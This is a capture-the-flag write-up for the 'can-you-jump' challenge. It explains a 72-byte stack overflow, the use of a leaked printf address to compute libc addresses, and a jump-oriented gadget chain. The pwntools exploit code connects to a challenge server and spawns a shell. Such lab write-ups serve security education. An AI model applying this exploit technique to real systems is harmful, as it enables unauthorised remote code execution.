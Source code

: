 # can-you-jump - CTF Writeup

**Challenge Name:** can-you-jump  
**Description:** How far can you jump?

## Overview

We are provided with 2 files: the `can-you-jump` program binary and the libc. We will have to pwn it on a remote server in order to get the flag. Given the name and the description, this will be a JOP (Jump Oriented Programming) challenge - a challenge where we need to find `jmp` gadgets in order to pwn the machine.

## Initial Analysis

Let's first run the binary and see what it does.

![alt text](image.png)

Running the binary we see that we are given the `printf` address and then we are prompted to input something. The input address is given so we can calculate the libc base in order to further calculate the `system` and `binsh_string` addresses. We have the libc so we know all the offsets. It should be easy to calculate the real addresses of libc, system and binsh_string.

Before doing that, in order to jump through the program we need to find the buffer offset. How many bytes do we need to write in order to get to the RIP register where we can overwrite the return address of the function?

## Finding the Buffer Offset

We will analyze the binary using radare2 and look for the buffer.

![alt text](image-1.png)

As we can see in the instruction at address `0x004006be`, the `buf` variable is loaded into `rax`, then into `rsi` and the `read` function is called with 256 bytes into `edx`, meaning it can read up to 256 bytes. 

Looking into the `buf` variable declaration at the top of the picture: `var void *buf @ rbp-0x40`, the buf variable is at `rbp-0x40` which means it holds up to 64 bytes. So the `read` function reads up to 256 bytes into a 64 bytes buffer, meaning we can easily overflow this and return where we want. 

We would need 64 bytes to get to `rbp` and then +8 in order to get to RIP, so **72 bytes total**. What we write after 72 bytes are addresses where we want to jump to.

## Exploit Development - Part 1: Leaking Addresses

We will start crafting the first part of the exploit where we will:
- Get the leaked printf address
- Find the offset of printf in libc
- Leak the libc base (`printf_address - offset_address`)
- Leak the system address in libc (`system_offset + libc_base`)
- Leak the bin sh string address in libc (`binsh_offset + libc_base`)
- Fill the buffer with 72 bytes

The first part of the exploit:

```python
from pwn import *

p = remote("34.185.160.224", 32226)

# define the buffer offset
buffer_fill = b"A" * 72

# get the offsets from libc
printf_offset = 0x64f70
system_offset = 0x4f550
binsh_offset = 0x1b3e1a

p.recvn(10)  # receive the first output
p.recvuntil(b": ")
printf_addr = int(p.recvuntil(b'\n'), 16)  # get the printf address

# calculate libc base address and the real addresses of system and binsh
libc_base_address = printf_addr - printf_offset
system_addr = libc_base_address + system_offset
binsh_addr = libc_base_address + binsh_offset
```

## Exploit Development - Part 2: Finding Gadgets

Now, what we need to do is find gadgets. The use of gadgets should ultimately let us:
- Load binsh into `rdi`
- Call `system`

After a careful look, we found gadgets in libc and not in the binary itself. The gadgets found are:
- `pop rdi ; jmp rax` → will pop the bin sh string into rdi and jmp to rax where the system function will be already stored
- `pop rax ; ret` → will pop the system function into rax and ret to `pop rdi ; jmp rax`

For these we will also need to calculate their real addresses as the libc base is dynamic:
- `pop rdi ; jmp rax` address (offset + libc base)
- `pop rax ; ret` address (offset + libc base)

### Payload Construction

The payload will need to be:
1. Fill the buffer (send 72 bytes until RIP)
2. Return to `pop rax ; ret` gadget
3. System address (which will be popped into rax)
4. Return to `pop rdi ; jmp rax` (will pop binsh into rdi and then jump to system function which will be called)
5. Bin sh string address

The second part of the exploit:

```python
# calculate addresses for libc gadgets
pop_rdi_jmp_rax_address = pop_rdi_jmp_rax_offset + libc_base_address
pop_rax_ret_address = pop_rax_ret_offset + libc_base_address

# construct payload with gadgets from libc
payload = buffer_fill + p64(pop_rax_ret_address) + p64(system_addr) + p64(pop_rdi_jmp_rax_address) + p64(binsh_addr)

p.sendline(payload)
p.interactive()
```

## Success

Running this will get remote control over the machine from where we can reveal the flag.

![alt text](image-2.png)